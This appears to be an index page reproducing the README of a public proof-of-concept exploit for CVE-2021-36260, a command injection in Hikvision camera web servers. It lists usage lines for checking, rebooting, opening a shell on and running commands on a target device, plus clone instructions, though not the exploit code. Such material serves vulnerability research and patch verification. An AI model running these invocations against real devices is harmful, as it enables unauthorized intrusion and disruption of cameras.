 # CVE-2021-36260

command injection vulnerability in the web server of some Hikvision product. Due to the insufficient input validation, attacker can exploit the vulnerability to launch a command injection attack by sending some messages with malicious commands.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Aiminsun](https://github.com/Aiminsun) |
| Url      | [https://github.com/Aiminsun/CVE-2021-36260](https://github.com/Aiminsun/CVE-2021-36260)                                               |
| Stars    | 189                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-36260
CVE-2021-36260 POC command injection vulnerability in the web server of some Hikvision product. Due to the insufficient input validation, attacker can exploit the vulnerability to launch a command injection attack by sending some messages with malicious commands.

Exploit Title: Hikvision Web Server Build 210702 - Command Injection

Exploit Author: bashis

Vendor Homepage: https://www.hikvision.com/

Version: 1.0

CVE: CVE-2021-36260

Reference: https://watchfulip.github.io/2021/09/18/Hikvision-IP-Camera-Unauthenticated-RCE.html

# All credit to Watchful_IP


Note:
1)  This code will _not_ verify if remote is Hikvision device or not.
2)  Most of my interest in this code has been concentrated on how to
    reliably detect vulnerable and/or exploitable devices.
    Some devices are easy to detect, verify and exploit the vulnerability,
    other devices may be vulnerable but not so easy to verify and exploit.
    I think the combined verification code should have very high accuracy.
3)  'safe check' (--check) will try write and read for verification
    'unsafe check' (--reboot) will try reboot the device for verification

[Examples]
Safe vulnerability/verify check:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check

Safe and unsafe vulnerability/verify check:
(will only use 'unsafe check' if not verified with 'safe check')
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --check --reboot

Unsafe vulnerability/verify check:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --reboot

Launch and connect to SSH shell:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --shell

Execute command:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd "ls -l"

Execute blind command:
    $./CVE-2021-36260.py --rhost 192.168.57.20 --rport 8080 --cmd_blind "reboot"




## Get the content

```
git clone https://github.com/Aiminsun/CVE-2021-36260
cd CVE-2021-36260
```

{% embed url="https://github.com/Aiminsun/CVE-2021-36260" %}

<figure><img src="https://avatars.githubusercontent.com/u/58260225?v=4" alt=""><figcaption><p>Aiminsun</p></figcaption></figure>
